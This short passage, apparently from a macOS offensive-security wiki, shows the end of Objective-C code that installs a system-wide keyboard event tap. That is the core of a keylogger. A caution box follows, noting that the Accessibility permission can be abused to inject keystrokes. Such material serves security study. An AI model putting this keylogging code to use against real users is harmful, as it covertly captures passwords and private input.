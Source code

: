 ```
        CFMachPortRef eventTap = CGEventTapCreate(kCGSessionEventTap, kCGHeadInsertEventTap, 0, eventMask, KeyboardEventCallback, NULL);

        if (!eventTap) {
            NSLog(@"Failed to create event tap");
            exit(1);
        }

        CFRunLoopSourceRef runLoopSource = CFMachPortCreateRunLoopSource(kCFAllocatorDefault, eventTap, 0);
        CFRunLoopAddSource(CFRunLoopGetCurrent(), runLoopSource, kCFRunLoopCommonModes);
        CGEventTapEnable(eventTap, true);
        CFRunLoopRun();
    }
    return 0;
}
```
```


> [!CAUTION] > **Accessibility is a very powerful permission**, you could abuse it in other ways, for example you could perform the **keystrokes attack** just from it without needed to call System Events.



